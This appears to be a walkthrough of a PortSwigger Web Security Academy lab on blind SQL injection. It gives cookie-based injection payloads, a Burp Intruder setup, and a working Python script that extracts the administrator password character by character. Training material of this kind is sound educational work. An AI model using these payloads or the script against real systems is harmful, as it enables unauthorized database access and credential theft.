

## PortSwigger Blind SQL Injection with Conditional Responses

If you're using the community edition of Burp Suite, brute-forcing all lowercase characters and digits (0-9) can take hours. So I came up with this solution which is more efficient and creative.

---

## Challenge Description


The challenge description reveals that the application uses the `TrackingId` cookie in SQL queries. We also confirm the existence of the `users` table, the `administrator` user, and a `password` column.

---

## Determining the Password Length

1. Open Burp Suite, intercept the request, and send it to Repeater.

   

2. Since the cookie value is part of the query, we can attempt SQL injection. Removing it may cause an error, so we modify it instead:

   ```sql
   TrackingId=xyz' AND '1'='1
   ```

   

   If the response contains `Welcome back!`, we know the injection was successful. Since this is a blind SQL injection scenario, the database does not return direct query results, but we can infer information from response differences.

3. Next, verify if the `administrator` user exists:

   ```sql
   TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
   ```

   

   If `Welcome back!` appears, the `administrator` user exists.

4. Now, determine the password length:

   ```sql
   TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password) > 1)='a
   ```

   

   Increase the number incrementally until `Welcome back!` disappears. Instead of manually testing, we automate it using Burp Suite’s Intruder:

   

   To generate a wordlist of numbers from 1 to 100, I used ChatGPT to create a text file.

   Configure the settings:

   

   Using the **Grep** function ensures that we detect when `Welcome back!` appears in responses. 

   Launch the attack!

   

   The `Welcome` column stops appearing after 20, confirming the password length.

---

## Extracting the Password

Now, brute-force the password character by character using SQL’s `SUBSTRING()` function. We use Burp Suite’s Intruder similarly:



Since Burp Suite Community Edition is slow, a Python script offers a more efficient approach:

```python
import requests
import string

url = "https://example.web-security-academy.net/"

headers = {
    "Host": "example.web-security-academy.net",
    "Cookie": "TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
}

characters = string.ascii_lowercase + string.digits
password = ""

for position in range(1, 21):  # Assuming the password is 20 characters long
    for char in characters:
        headers["Cookie"] = f"TrackingId=xyz' AND (SELECT SUBSTRING(password,{position},1) FROM users WHERE username='administrator')='{char}"
        response = requests.get(url, headers=headers)

        if "Welcome" in response.text:
            password += char
            print(f"Found character: {char} | Current password: {password}")
            break
    else:
        print(f"No valid character found for position {position}. Exiting.")
        break

print(f"Final password: {password}")
```

This script rapidly extracts the password, completing the attack in under a minute.


---

## Conclusion

By leveraging SQL injection techniques, we successfully extracted the administrator password using boolean-based inference. While Burp Suite’s Intruder is useful, a Python script significantly speeds up the process.

Happy hacking!
